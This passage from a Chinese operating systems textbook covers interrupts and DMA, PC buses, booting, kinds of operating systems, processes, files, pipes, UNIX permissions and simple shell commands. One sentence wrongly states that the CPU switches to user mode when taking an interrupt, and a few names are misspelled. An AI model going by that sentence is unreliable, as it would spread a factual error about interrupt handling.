在有些计算机中，设备寄存器被映射到操作系统的地址空间（操作系统可使用的地址），这样，它们就可以像普通存储字一样读出和写入。在这种计算机中，不需要专门的I/O指令，用户程序可以被硬件阻挡在外，防止其接触这些存储器地址（例如，采用基址和界限寄存器）。在另外一些计算机中，设备寄存器被放入一个专门的I/O端口空间中，每个寄存器都有一个端口地址。在这些机器中，提供在内核态中可使用的专门IN和OUT指令，供设备驱动程序读写这些寄存器用。前一种方式不需要专门的I/O指令，但是占用了一些地址空间。后者不占用地址空间，但是需要专门的指令。这两种方式的应用都很广泛。
实现输入和输出的方式有三种。在最简单的方式中，用户程序发出一个系统调用，内核将其翻译成一个对应设备驱动程序的过程调用。然后设备驱动程序启动I/O并在一个连续不断的循环中检查该设备，看该设备是否完成了工作（一般有一些二进制位用来指示设备仍在忙碌中）。当I/O结束后，设备驱动程序把数据送到指定的地方（若有此需要），并返回。然后操作系统将控制返回给调用者。这种方式称为忙等待（busy waiting），其缺点是要占据CPU，CPU一直轮询设备直到对应的I/O操作完成。
第二种方式是设备驱动程序启动设备并且让该设备在操作完成时发出一个中断。设备驱动程序在这个时刻返回。操作系统接着在需要时阻塞调用者并安排其他工作进行。当设备驱动程序检测到该设备的操作完毕时，它发出一个中断通知操作完成。
在操作系统中，中断是非常重要的，所以需要更具体地讨论。在图1-11a中，有一个I/O的三步过程。在第1步，设备驱动程序通过写设备寄存器通知设备控制器做什么。然后，设备控制器启动该设备。当设备控制器传送完毕被告知的要进行读写的字节数量后，它在第2步中使用特定的总线发信号给中断控制器芯片。如果中断控制器已经准备接收中断（如果正忙于一个更高级的中断，也可能不接收），它会在CPU芯片的一个管脚上声明，这就是第3步。在第4步中，中断控制器把该设备的编号放到总线上，这样CPU可以读总线，并且知道哪个设备刚刚完成了操作（可能同时有许多设备在运行）。

一旦CPU决定取中断，通常程序计数器和PSW就被压入当前堆栈中，并且CPU被切换到用户态。设备编号可以成为部分内存的一个引用，用于寻找该设备中断处理程序的地址。这部分内存称为中断向量（interrupt vector）。当中断处理程序（中断设备的设备驱动程序的一部分）开始后，它取走已入栈的程序计数器和PSW，并保存之，然后查询设备的状态。在中断处理程序全部完成之后，它返回到先前运行的用户程序中尚未执行的头一条指令。这些步骤如图1-11b所示。
第三种方式是，为I/O使用一种特殊的直接存储器访问（Direct Memory Access，DMA）芯片，它可以控制在内存和某些控制器之间的位流，而无须持续的CPU干预。CPU对DMA芯片进行设置，说明需要传送的字节数、有关的设备和内存地址以及操作方向，接着启动DMA。当DMA芯片完成时，它引发一个中断，其处理方式如前所述。有关DMA和I/O硬件会在第5章中具体讨论。
中断经常会在非常不合适的时刻发生，比如，在另一个中断程序正在运行时发生。正由于此，CPU有办法关闭中断并在稍后再开启中断。在中断关闭时，任何已经发出中断的设备，可以继续保持其中断信号，但是CPU不会被中断，直至中断再次启用为止。如果在中断关闭时，已有多个设备发出了中断，中断控制器将决定先处理哪个中断，通常这取决于事先赋予每个设备的静态优先级。最高优先级的设备赢得竞争。
图1-6中的结构在小型计算机中使用了多年，并也用在早期的IBM PC中。但是，随着处理器和存储器速度越来越快，到了某个转折点时，单总线（当然还有IBM PC总线）就很难处理总线的交通流量了，只有放弃。其结果是导致其他的总线出现，它们处理I/O设备以及CPU到存储器的速度都更快。这种演化的结果是，目前一台较大的Pentium系统的结构如图1-12所示。

图中的系统有8个总线（高速缓存、局部、内存、PCI、SCSI、USB、IDE和ISA），每个总线传输速度和功能都不同。操作系统必须了解所有总线的配置和管理。有两个主要的总线，即早期的IBM PC ISA（Industry Standard Architecture）总线和它的后继者PCI（Peripheral Component Interconnect）总线。ISA总线就是原先的IBM PC/AT总线，以8.33MHz频率运行，可并行传送2字节，最大速率为16.67MB/s。它还可与老式的慢速I/O卡向后兼容。PCI总线作为ISA总线的后继者由Intel公司发布。它可在66MHz频率运行，可并行传送8字节，数据速率为528MB/s。目前多数高速I/O设备采用PCI总线。由于有大量的I/O卡采用PCI总线，甚至许多非Intel计算机也使用PCI总线。现在，使用称为PCI Express的PCI总线升级版的新计算机已经出现。
在这种配置中，CPU通过局部总线与PCI桥芯片对话，而PCI桥芯片通过专门的存储总线与存储器对话，一般速率为100MHz。Pentium系统在芯片上有1级高速缓存，在芯片外有一个非常大的2级高速缓存，它通过高速缓存总线与CPU连接。
另外，在这个系统中有三个专门的总线：IDE、USB和SCSI。IDE总线将诸如磁盘和CD-ROM一类的外部设备与系统相连接。IDE总线是PC/AT的磁盘控制器接口的副产品，现在几乎成了所有基于Pentium系统的硬盘的标准，对于CD-ROM也经常是这样。
通用串行总线（Universal Serial Bus，USB）是用来将所有慢速I/O设备，诸如键盘和鼠标，与计算机连接。它采用一种小型四针连接器，其中两针为USB设备提供电源。USB是一种集中式总线，其根设备每1ms轮询一次I/O设备，看是否有信息收发。USB1.0可以处理总计为1.5MB/s的负载，而较新的USB2.0总线可以有60MB/s的速率。所有的USB设备共享一个USB设备驱动器，于是就不需要为新的USB设备安装新设备驱动器了。这样，无须重新启动就可以给计算机添加USB设备。
SCSI（Small Computer System Interface）总线是一种高速总线，用在高速硬盘、扫描仪和其他需要较大带宽的设备上。它最高可达320MB/s。自从其发布以来，SCSI总线一直用在Macintosh系统上，在UNIX和一些基于Intel的系统中也很流行。
还有一种总线（图1-12中没有展示）是IEEE 1394。有时，它称为火线（FireWire），严格来说，火线是苹果公司具体实现1394的名称。与USB一样，IEEE 1394是位串行总线，设计用于最快可达100MB/s的包传送中，它适合于将数码相机和类似的多媒体设备连接到计算机上。IEEE 1394与USB不同，不需要集中式控制器。
要在如图1-12展示的环境下工作，操作系统必须了解有些什么外部设备连接到计算机上，并对它们进行配置。这种需求导致Intel和微软设计了一种名为即插即用（plug and play）的I/O系统，这是基于一种首先被苹果Macintosh实现的类似概念。在即插即用之前，每块I/O卡有一个固定的中断请求级别和用于其I/O寄存器的固定地址，例如，键盘的中断级别是1，并使用0x60至0x64的I/O地址，软盘控制器是中断6级并使用0x3F0至0x3F7的I/O地址，而打印机是中断7级并使用0x378至0x37A的I/O地址等。
到目前为止，一切正常。比如，用户买了一块声卡和调制解调卡，并且它们都是可以使用中断4的，但此时，问题发生了，两块卡互相冲突，结果不能在一起工作。解决方案是在每块I/O卡上提供DIP开关或跳接器，并指导用户对其进行设置以选择中断级别和I/O地址，使其不会与用户系统的任何其他部件冲突。那些热衷于复杂PC硬件的十几岁的青少年们有时可以不出差错地做这类工作。但是，没有人能够不出错。
即插即用所做的工作是，系统自动地收集有关I/O设备的信息，集中赋予中断级别和I/O地址，然后通知每块卡所使用的数值。这项工作与计算机的启动密切相关，所以下面我们开始讨论计算机的启动。不过这不是件轻松的工作。
Pentium的简要启动过程如下。在每个Pentium上有一块双亲板（在政治上的纠正影响到计算机产业之前，它们曾称为“母板”）。在双亲板上有一个称为基本输入输出系统（Basic Input Output System，BIOS）的程序。在BIOS内有底层I/O软件，包括读键盘、写屏幕、进行磁盘I/O以及其他过程。现在这个程序存放在一块闪速RAM中，它是非可易失性的，但是在发现BIOS中有错时可以通过操作系统对它进行更新。
在计算机启动时，BIOS开始运行。它首先检查所安装的RAM数量，键盘和其他基本设备是否已安装并正常响应。接着，它开始扫描ISA和PCI总线并找出连在上面的所有设备。其中有些设备是典型的遗留设备（即在即插即用发明之前设计的），并且有固定的中断级别和I/O地址（也许能用在I/O卡上的开关和跳接器设置，但是不能被操作系统修改）。这些设备被记录下来。即插即用设备也被记录下来。如果现有的设备和系统上一次启动时的设备不同，则配置新的设备。
然后，BIOS通过尝试存储在CMOS存储器中的设备清单决定启动设备。用户可以在系统刚启动之后进入一个BIOS配置程序，对设备清单进行修改。典型地，如果存在软盘，则系统试图从软盘启动。如果失败则试用CD-ROM，看看是否有可启动CD-ROM存在。如果软盘和CD-ROM都没有，系统从硬盘启动。启动设备上的第一个扇区被读入内存并执行。这个扇面中包含一个对保存在启动扇面末尾的分区表检查的程序，以确定哪个分区是活动的。然后，从该分区读入第二个启动装载模块。来自活动分区的这个装载模块被读入操作系统，并启动之。
然后，操作系统询问BIOS，以获得配置信息。对于每种设备，系统检查对应的设备驱动程序是否存在。如果没有，系统要求用户插入含有该设备驱动程序的CD-ROM（由设备供应商提供）。一旦有了全部的设备驱动程序，操作系统就将它们调入内核。然后初始化有关表格，创建需要的任何背景进程，并在每个终端上启动登录程序或GUI。
操作系统已经存在了半个多世纪。在这段时期内，出现了各种类型的操作系统，并不是所有这些操作系统都很知名。本节中，我们将简要地介绍其中的9个。在本书的后面，我们还将回顾这些系统。
在操作系统的高端是用于大型机的操作系统，这些房间般大小的计算机仍然可以在一些大型公司的数据中心中见到。这些计算机与个人计算机的主要差别是其I/O处理能力。一台拥有1000个磁盘和上百万吉字节数据的大型机是很正常的；如果有这样的特性的一台个人计算机会使朋友们很羡慕。大型机也在高端的Web服务器、大型电子商务服务站点和事务-事务交易服务器上有某种程度的复活。
用于大型机的操作系统主要用于面向多个作业的同时处理，多数这样的作业需要巨大的I/O能力。系统主要提供三类服务：批处理、事务处理和分时处理。批处理系统处理不需要交互式用户干预的周期性作业。保险公司的索赔处理或连锁商店的销售报告通常就是以批处理方式完成的。事务处理系统负责大量小的请求，例如，银行的支票处理或航班预订。每个业务量都很小，但是系统必须每秒处理成百上千个业务。分时系统允许多个远程用户同时在计算机上运行作业，诸如在大型数据库上的查询。这些功能是密切相关的，大型机操作系统通常完成所有这些功能。大型机操作系统的一个例子是OS/390（OS/360的后继版本）。但是，大型机操作系统正在逐渐被诸如Linux这类UNIX的变体所替代。
下一个层次是服务器操作系统。它们在服务器上运行，服务器可以是大型的个人计算机、工作站，甚至是大型机。它们通过网络同时为若干个用户服务，并且允许用户共享硬件和软件资源。服务器可提供打印服务、文件服务或Web服务。Internet服务商们运行着许多台服务器机器，以支持他们的用户，使Web站点保存Web页面并处理进来的请求。典型的服务器操作系统有Solaris、FreeBSD、Linux和Windows Server 200x。
一种获得大量联合计算能力的操作系统，其越来越常用的方式是将多个CPU连接成单个的系统。依据连接和共享方式的不同，这些系统称为并行计算机、多计算机或多处理器。它们需要专门的操作系统，不过通常采用的操作系统是配有通信、连接和一致性等专门功能的服务器操作系统的变体。
个人计算机中近来出现了多核芯片，所以常规的台式机和笔记本电脑操作系统也开始与小规模的多处理器打交道，而核的数量正在与时俱进。幸运的是，由于先前多年的研究，已经具备不少关于多处理器操作系统的知识，将这些知识运用到多核处理器系统中应该不存在困难。难点在于要有能够运用所有这些计算能力的应用。许多主流操作系统，包括Windows和Linux，都可以运行在多核处理器上。
接着一类是个人计算机操作系统。现代个人计算机操作系统都支持多道程序处理，在启动时，通常有十多个程序开始运行。它们的功能是为单个用户提供良好的支持。这类系统广泛用于字处理、电子表格、游戏和Internet访问。常见的例子是Linux、FreeBSD、Windows Vista和Macintosh操作系统。个人计算机操作系统是如此地广为人知，所以不需要再做介绍了。事实上，许多人甚至不知道还有其他的操作系统存在。
随着系统越来越小型化，我们看到了掌上计算机。掌上计算机或者个人数字助理（Personal Digital Assistant，PDA）是一种可以装进衬衫口袋的小型计算机，它们可以实现少量的功能，诸如电子地址簿和记事本之类。而且，除了键盘和屏幕之外，许多移动电话与PDA几乎没有差别。在实际效果上，PDA和移动电话已经在逐渐融合，其差别主要在于大小、重量以及用户界面等方面。这些设备几乎都是基于带有保护模式的32位CPU，并且运行最尖端的操作系统。
运行在这些掌上设备上的操作系统正在变得越来越复杂，它们有能力处理移动电话、数码照相以及其他功能。多数设备还能运行第三方的应用。事实上，其中有些设备开始采用十年前的个人操作系统。掌上设备和PC机之间的主要差别是，前者没有若干GB的、不断变化的硬盘。在掌上设备上最主要的两个操作系统是Symbian OS和Plam OS。
嵌入式系统在用来控制设备的计算机中运行，这种设备不是一般意义上的计算机，并且不允许用户安装软件。典型的例子有微波炉、电视机、汽车、DVD刻录机、移动电话以及MP3播放器一类的设备。区别嵌入式系统与掌上设备的主要特征是，不可信的软件肯定不能在嵌入式系统上运行。用户不能给自己的微波炉下载新的应用程序——所有的软件都保存在ROM中。这意味着在应用程序之间不存在保护，这样系统就获得了某种简化。在这个领域中，主要的嵌入式操作系统有QNX和VxWorks等。
有许多用途需要配置微小传感器节点网络。这些节点是一种可以彼此通信并且使用无线通信基站的微型计算机。这类传感器网络可以用于建筑物周边保护、国土边界保卫、森林火灾探测、气象预测用的温度和降水测量、战场上敌方运动的信息收集等。
传感器是一种内建有无线电的电池驱动的小型计算机。它们能源有限，必须长时间工作在无人的户外环境中，通常是恶劣的环境条件下。其网络必须足够健壮，以允许个别节点失效。随着电池开始耗尽，这种失效节点会不断增加。
每个传感器节点是一个配有CPU、RAM、ROM以及一个或多个环境传感器的实实在在的计算机。节点上运行一个小型但是真实的操作系统，通常这个操作系统是事件驱动的，可以响应外部事件，或者基于内部时钟进行周期性的测量。该操作系统必须小且简单，因为这些节点的RAM很小，而且电池寿命是一个重要问题。另外，和嵌入式系统一样，所有的程序是预先装载的，用户不会突然启动从Internet上下载的程序，这样就使得设计大为简化。TinyOS是一个用于传感器节点的知名操作系统。
另一类操作系统是实时操作系统。这些系统的特征是将时间作为关键参数。例如，在工业过程控制系统中，工厂中的实时计算机必须收集生产过程的数据并用有关数据控制机器。通常，系统还必须满足严格的最终时限。例如，汽车在装配线上移动时，必须在限定的时间内进行规定的操作。如果焊接机器人焊接得太早或太迟，都会毁坏汽车。如果某个动作必须绝对地在规定的时刻（或规定的时间范围）发生，这就是硬实时系统。可以在工业过程控制、民用航空、军事以及类似应用中看到很多这样的系统。这些系统必须提供绝对保证，让某个特定的动作在给定的时间内完成。
另一类实时系统是软实时系统，在这种系统中，偶尔违反最终时限是不希望的，但可以接受，并且不会引起任何永久性的损害。数字音频或多媒体系统就是这类系统。数字电话也是软实时系统。
由于在（硬）实时系统中满足严格的时限是关键，所以操作系统就是一个简单的与应用程序链接的库，各个部分必须紧密耦合并且彼此之间没有保护。这种类型的实时系统的例子有e-Cos。
掌上、嵌入式以及实时系统的分类之间有不少是彼此重叠的。几乎所有这些系统至少存在某种软实时情景。嵌入式和实时系统只运行系统设计师安装的软件用户不能添加自己的软件，这样就使得保护工作很容易。掌上和嵌入式系统是为普通消费者使用的，而实时系统则更多用于工业领域。无论怎样，这些系统确实存在一些共同点。
最小的操作系统运行在智能卡上。智能卡是一种包含有一块CPU芯片的信用卡。它有非常严格的运行能耗和存储空间的限制。其中，有些智能卡只具有单项功能，诸如电子支付，但是其他的智能卡则可在同一块卡中拥有多项功能。它们是专用的操作系统。
有些智能卡是面向Java的。其含义是在智能卡的ROM中有一个Java虚拟机（Java Virtual Machine，JVM）解释器。Java小程序被下载到卡中并由JVM解释器解释。有些卡可以同时处理多个Java小程序，这就是多道程序，并且需要对它们进行调度。在两个或多个小程序同时运行时，资源管理和保护就成为突出的问题。这些问题必须由卡上的操作系统（通常是非常原始的）处理。
多数操作系统都使用某些基本概念和抽象，诸如进程、地址空间以及文件等，它们是需要理解的中心。作为引论，在下面的几节中，我们将较为简要地分析这些基本概念中的一些成分。在本书的后面，我们将详细地讨论它们。为了说明这些概念，我们有时将使用示例，这些示例通常源自UNIX。不过，类似的例子在其他的操作系统中也明显地存在，进而，我们将在第11章中具体讨论Windows Vista。
在所有操作系统中，一个重要的概念是进程（process）。进程本质上是正在执行的一个程序。与每个进程相关的是进程的地址空间（address space），这是从某个最小值的存储位置（通常是零）到某个最大值存储位置的列表。在这个地址空间中，进程可以进行读写。该地址空间中存放有可执行程序、程序的数据以及程序的堆栈。与每个进程相关的还有资源集，通常包括寄存器（含有程序计数器和堆栈指针）、打开文件的清单、突出的报警、有关进程清单，以及运行该程序所需要的所有其他信息。进程基本上是容纳运行一个程序所需要所有信息的容器。
进程的概念将在第2章详细讨论，不过，对进程建立一种直观感觉的最便利方式是分析一个分时系统。用户会启动一个视频编辑程序，并指令它按照某个格式转换一小时的视频（有时会花费数小时），然后离开去Web上冲浪。同时，一个被周期性唤醒，用来检查进来的e-mail的后台进程会开始运行。这样，我们就有了（至少）三个活动进程：视频编辑器、Web浏览器以及e-mail接收器。操作系统周期性地挂起一个进程然后启动运行另一个进程。例如，在过去的一秒钟内，第一个进程已使用完分配给它的时间片。
一个进程暂时被这样挂起后，在随后的某个时刻里，该进程再次启动时的状态必须与先前暂停时完全相同，这就意味着在挂起时该进程的所有信息都要保存下来。例如，为了同时读入信息，进程打开了若干文件。同每个被打开文件有关的是指向当前位置的指针（即下一个将读出的字节或记录）。在一个进程暂时被挂起时，所有这些指针都必须保存起来，这样在该进程重新启动之后，所执行的读调用才能读到正确的数据。在许多操作系统中，与一个进程有关的所有信息，除了该进程自身地址空间的内容以外，均存放在操作系统的一张表中，称为进程表（process table），进程表是数组（或链表）结构，当前存在的每个进程都要占用其中一项。
所以，一个（挂起的）进程包括：进程的地址空间，往往称作磁芯映像（core image，纪念过去年代中使用的磁芯存储器），以及对应的进程表项，其中包括寄存器以及稍后重启动该进程所需要的许多其他信息。
与进程管理有关的最关键的系统调用是那些进行进程创建和进程终止的系统调用。考虑一个典型的例子。有一个称为命令解释器（command interpreter）或shell的进程从终端上读命令。此时，用户刚键入一条命令要求编译一个程序。shell必须先创建一个新进程来执行编译程序。当执行编译的进程结束时，它执行一条系统调用来终止自己。
若一个进程能够创建一个或多个进程（称为子进程），而且这些进程又可以创建子进程，则很容易得到进程树，如图1-13所示。合作完成某些作业的相关进程经常需要彼此通信以便同步它们的行为。这种通信称为进程间通信（interprocess communication），将在第2章中详细讨论。

其他可用的进程系统调用包括：申请更多的内存（或释放不再需要的内存）、等待一个子进程结束、用另一个程序覆盖该程序等。
有时，需要向一个正在运行的进程传送信息，而该进程并没有等待接收信息。例如，一个进程通过网络向另一台机器上的进程发送消息进行通信。为了保证一条消息或消息的应答不会丢失，发送者要求它所在的操作系统在指定的若干秒后给一个通知，这样如果对方尚未收到确认消息就可以进行重发。在设定该定时器后，程序可以继续做其他工作。
在限定的秒数流逝之后，操作系统向该进程发送一个警告信号（alarm signal）。此信号引起该进程暂时挂起，无论该进程正在做什么，系统将其寄存器的值保存到堆栈，并开始运行一个特别的信号处理过程，比如重新发送可能丢失的消息。这些信号是软件模拟的硬件中断，除了定时器到期之外，该信号可以由各种原因产生。许多由硬件检测出来的陷阱，诸如执行了非法指令或使用了无效地址等，也被转换成该信号并交给这个进程。
系统管理器授权每个进程使用一个给定的UID标识（User IDentification）。每个被启动的进程都有一个启动该进程的用户UID。子进程拥有与父进程一样的UID。用户可以是某个组的成员，每个组也有一个GID标识（Group IDentification）。
在UNIX中，有一个UID称为超级用户（superuser），具有特殊的权利，可以违背一些保护规则。在大型系统中，只有系统管理员掌握着成为超级用户的密码，但是许多普通用户（特别是学生）们做出可观的努力试图找出系统的缺陷，从而使他们不用密码就可以成为超级用户。
在第2章中，我们将讨论进程、进程间通信以及有关的内容。
每台计算机都有一些主存，用来保存正在执行的程序。在非常简单的操作系统中，内存中一次只能有一个程序。如果要运行第二个程序，第一个程序就必须被移出内存，再把第二个程序装入内存。
较复杂的操作系统允许在内存中同时运行多道程序。为了避免它们彼此互相干扰（包括操作系统），需要有某种保护机制。虽然这种机制必然是硬件形式的，但是它由操作系统掌控。
上述的观点涉及对计算机主存的管理和保护。另一种不同的但是同样重要并与存储器有关的内容，是管理进程的地址空间。通常，每个进程有一些可以使用的地址集合，典型值从0开始直到某个最大值。在最简单的情形下，一个进程可拥有的最大地址空间小于主存。在这种方式下，进程可以用满其地址空间，而且内存中也有足够的空间容纳该进程。
但是，在许多32位或64位地址的计算机中，分别有232 或264 字节的地址空间。如果一个进程有比计算机拥有的主存还大的地址空间，而且该进程希望使用全部的内存，那怎么办呢？在早期的计算机中，这个进程只好承认坏运气了。现在，有了一种称为虚拟内存的技术，正如前面已经介绍过的，操作系统可以把部分地址空间装入主存，部分留在磁盘上，并且在需要时穿梭交换它们。在本质上，操作系统创建了一个地址空间的抽象，作为进程可以引用地址的集合。该地址空间与机器的物理内存解耦，可能大于也可能小于该物理空间。对地址空间和物理空间的管理组成了操作系统功能的一个重要部分，本书中整个第3章都与这个主题有关。
实际上，支持操作系统的另一个关键概念是文件系统。如前所述，操作系统的一项主要功能是隐藏磁盘和其他I/O设备的细节特性，并提供给程序员一个良好、清晰的独立于设备的抽象文件模型。显然，创建文件、删除文件、读文件和写文件等都需要系统调用。在文件可以读取之前，必须先在磁盘上定位和打开文件，在文件读过之后应该关闭该文件，有关的系统调用则用于完成这类操作。
为了提供保存文件的地方，大多数操作系统支持目录（directory）的概念，从而可把文件分类成组。比如，学生可给所选的每个课程创建一个目录（用于保存该课程所需的程序），另设一个目录存放电子邮件，再有一个目录用于保存万维网主页。这就需要系统调用创建和删除目录、将已有的文件放入目录中、从目录中删除文件等。目录项可以是文件或者目录，这样就产生了层次结构——文件系统，如图1-14所示。

进程和文件层次都可以组织成树状结构，但这两种树状结构有不少不同之处。一般进程的树状结构层次不深（很少超过三层），而文件树状结构的层次常常多达四层、五层或更多层。进程树层次结构是暂时的，通常最多存在几分钟，而目录层次则可能存在数年之久。进程和文件在所有权及保护方面也是有区别的。典型地，只有父进程能控制和访问子进程，而在文件和目录中通常存在一种机制，使文件所有者之外的其他用户也可以访问该文件。
目录层结构中的每一个文件都可以通过从目录的顶部，即根目录（root directory）开始的路径名（path name）来确定。绝对路径名包含了从根目录到该文件的所有目录清单，它们之间用正斜线隔开。如在图1-14中，文件CS101路径名是/Faculty/Prof.Brown/Courses/CS101。最开始的正斜线表示这是从根目录开始的绝对路径。顺便提及，在MS-DOS和Windows中，用反斜线（\）字符作为分隔符，替代了正斜线（/），这样，上面给出的文件路径会写为\Faculty\Prof.Brown\Courses\CS101。在本书中，我们一般使用路径的UNIX惯例。
在实例中，每个进程有一个工作目录（working directory），其中，路径名不以斜线开始。如在图1-14中的例子，如果/Faculty/Prof.Brown是工作目录，那么Courses/CS101与上面给定的绝对路径名表示的是同一个文件。进程可以通过使用系统调用指定新的工作目录，从而变更其工作目录。
在读写文件之前，首先要打开文件，检查其访问权限。若权限许可，系统将返回一个小整数，称作文件描述符（file descriptor），供后续操作使用。若禁止访问，系统则返回一个错误码。
在UNIX中的另一个重要概念是安装文件系统。几乎所有的个人计算机都有一个或多个光盘驱动器，可以插入CD-ROM和DVD。它们几乎都有USB接口，可以插入USB存储棒（实际是固态磁盘驱动器）。为了提供一个出色的方式处理可移动介质，UNIX允许把在CD-ROM或DVD上的文件系统接入到主文件树上。考虑图1-15a的情形。在mount调用之前，根文件系统在硬盘上，而第二个文件系统在CD-ROM上，它们是分离的和无关的。

然而，不能使用在CD-ROM上的文件系统，因为上面没有可指定的路径。UNIX不允许在路径前面加上驱动器名称或代码，那样做就完全成了设备相关类型了，这是操作系统应该消除的。代替的方法是，mount系统调用允许把在CD-ROM上的文件系统连接到程序所希望的根文件系统上。在图1-15b中，CD-ROM上的文件系统安装到了目录b上，这样就允许访问文件/b/x以及/b/y。如果当CD-ROM安装好，目录b中有任何不能访问的文件，则是因为/b指向了CD-ROM的根目录。（在开始时，不能访问这些文件似乎并不是一个严重问题：文件系统几乎总是安装在空目录上。）如果系统有多个硬盘，它们也可以都安装在单个树上。
在UNIX中，另一个重要的概念是特殊文件（special file）。提供特殊文件是为了使I/O设备看起来像文件一般。这样，就像使用系统调用读写文件一样，I/O设备也可通过同样的系统调用进行读写。有两类特殊文件：块特殊文件（block special file）和字符特殊文件（character special file）。块特殊文件指那些由可随机存取的块组成的设备，如磁盘等。比如打开一个块特殊文件，然后读第4块，程序可以直接访问设备的第4块而不必考虑存放该文件的文件系统结构。类似地，字符特殊文件用于打印机、调制解调器和其他接收或输出字符流的设备。按照惯例，特殊文件保存在/dev目录中。例如，/dev/lp是打印机（曾经称为行式打印机）。
在本节中讨论的最后一个特性既与进程有关也与文件有关：管道。管道（pipe）是一种虚文件，它可连接两个进程，如图1-16所示。如果进程A和B希望通过管道对话，它们必须提前设置该管道。当进程A想对进程B发送数据时，它把数据写到管道上，仿佛管道就是输出文件一样。进程B可以通过读该管道而得到数据，仿佛该管道就是一个输入文件一样。这样，在UNIX中两个进程之间的通信就很类似于普通文件的读写了。更为强大的是，若进程要想发现它所写入的输出文件不是真正的文件而是管道，则需要使用特殊的系统调用。文件系统是非常重要的。我们将在第6章，以及第10章和第11章中具体讨论它们。

所有的计算机都有用来获取输入和产生输出的物理设备。毕竟，如果用户不能告诉计算机该做什么，而在计算机完成了所要求的工作之后竟不能得到结果，那么计算机还有什么用处呢？有各种类型的输入和输出设备，包括键盘、显示器、打印机等。对这些设备的管理全然依靠操作系统。
所以，每个操作系统都有管理其I/O设备的I/O子系统。某些I/O软件是设备独立的，即这些I/O软件部分可以同样应用于许多或者全部的I/O设备上。I/O软件的其他部分，如设备驱动程序，是专门为特定的I/O设备设计的。在第5章中，我们将讨论I/O软件。
计算机中有大量的信息，用户经常希望对其进行保护，并保守秘密。这些信息可包括电子邮件、商业计划、退税等诸多内容。管理系统的安全性完全依靠操作系统，例如，文件仅供授权用户访问。
作为一个简单的例子，以便读者对如何实现安全有一个概念，请考察UNIX。UNIX操作系统通过对每个文件赋予一个9位的二进制保护代码，对UNIX中的文件实现保护。该保护代码有三个3位字段，一个用于所有者，一个用于所有者同组（用户被系统管理员划分成组）中的其他成员，而另一个用于其他人。每个字段中有一位用于读访问，一位用于写访问，一位用于执行访问。这些位就是知名的rwx位。例如，保护代码rwxr-x--x的含义是所有者可以读、写或执行该文件，其他的组成员可以读或执行（但不能写）该文件，而其他人可以执行（但不能读和写）该文件。对一个目录而言，x的含义是允许查询。一条短横线的含义是，不存在对应的许可。
除了文件保护之外，还有很多有关安全的问题存在。保护系统不被人类或非人类（如病毒）入侵，则是其中之一。我们将在第9章中研究各种安全性问题。
操作系统是进行系统调用的代码。编辑器、编译器、汇编程序、链接程序以及命令解释器等，尽管非常重要，也非常有用，但是它们确实不是操作系统的组成部分。为了避免可能发生的混淆，本节将大致介绍一下UNIX的命令解释器，称为shell。尽管shell本身不是操作系统的一部分，但它体现了许多操作系统的特性，并很好地说明了系统调用的具体用法。shell同时也是终端用户与操作系统之间的界面，除非用户使用的是一个图形用户界面。有许多种类的shell，如sh、csh、ksh以及bash等。它们全部支持下面所介绍的功能，这些功能可追溯到早期的shell（即sh）。
用户登录时，同时启动了一个shell。它以终端作为标准输入和标准输出。首先显示提示符（prompt），它可能是一个美元符号，提示用户shell正在等待接收命令。假如用户键入
date
于是shell创建一个子进程，并运行date程序作为子进程。在该子进程运行期间，shell等待它结束。在子进程结束后，shell再次显示提示符，并等待下一行输入。
用户可以将标准输出重定向到一个文件，如键入：
date＞file
同样地，也可以将标准输入重定向，如：
sort＜file1＞file2
该命令调用sort程序，从file1中取得输入，输出送到file2。
可以将一个程序的输出通过管道作为另一程序的输入，因此有
cat file1 file2 file3|sort＞/dev/lp
所调用的cat程序将这三个文件合并，其结果送出到sort程序并按字典排序。sort的输出又被重定向到文件/dev/lp中，显然，这是打印机。
如果用户在命令后加上一个“＆”符号，则shell将不等待其结束，而直接显示出提示符。所以
cat file1 file2 file3|sort＞/dev/lp＆
将启动sort程序作为后台任务执行，这样就可以允许用户继续工作，而sort命令也继续进行。shell还有许多其他有用的特性，由于篇幅有限而不能在这里讨论。有许多UNIX的书籍具体地讨论了shell（例如，Kernighan和Pike，1984；Kochan和Wood，1990；Medinets，1999；Newham和Rosenblatt，1998；Robbins，1999）。
现在，许多个人计算机使用GUI。事实上，GUI与shell类似，GUI只是一个运行在操作系统顶部的程序。在Linux系统中，这个事实更加明显，因为用户（至少）可以在两个GUI中选择一个：Gnome和KDE，或者干脆不用（使用X11上的终端视窗）。在Windows中也有可能用不同的程序代替标准的GUI桌面（Windows Explorer），这可以通过修改注册表中的某些数值实现，不过极少有人这样做。
在达尔文的《物种起源》（On the Origin of the Species）一书出版之后，德国动物学家Ernst Haeckel论述了“个体重复系统发育”（ontogeny recapitulates phylogeny）。他这句话的含义是，一个个体重复着物种的演化过程。换句话说，在一个卵子受精之后，成为人体之前，这个卵子要经过是鱼、是猪等阶段。现代生物学家认为这是一种粗略的简化，不过这种观点仍旧包含了真理的内核部分。
在计算机的历史中，类似情形依稀发生。每个新物种（大型机、小型计算机、个人计算机、掌上、嵌入式计算机、智能卡等），无论是硬件还是软件，似乎都要经过它们前辈的发展阶段。计算机科学和许多领域一样，主要是由技术驱动的。古罗马人缺少汽车的原因不是因为他们非常喜欢步行，是因为他们不知道如何造汽车。个人计算机的存在，不是因为成百万的人们有几个世纪被压抑的拥有一台计算机的愿望，而是因为现在可以很便宜地制造它们。我们常常忘了技术是如何影响着我们对各种系统的观点，所以有时值得再仔细考虑它们。
特别地，技术的变化会导致某些思想过时并迅速消失，这种情形经常发生。但是，技术的另一种变化还可能再次复活某些思想。在技术的变化影响了某个系统不同部分之间的相对性能时，情况就会是这样。例如，当CPU远快于存储器时，为了加速“慢速”的存储器，高速缓存是很重要的。某一天，如果新的存储器技术使得存储器远快于CPU时，高速缓存就会消失。而如果新的CPU技术又使CPU远快于存储器时，高速缓存就会再次出现。在生物学上，消失是永远的，但是在计算机科学中，这一种消失有时不过只有几年时间。
在本书中，暂时消失的结果会造成我们有时需要反复考察一些“过时”的概念，即那些在当代技术中并不理想的思想。而技术的变化会把一些“过时概念”带回来。正由于此，更重要的是要理解为什么一个概念会过时，而什么样环境的变化又会启用“过时概念”。
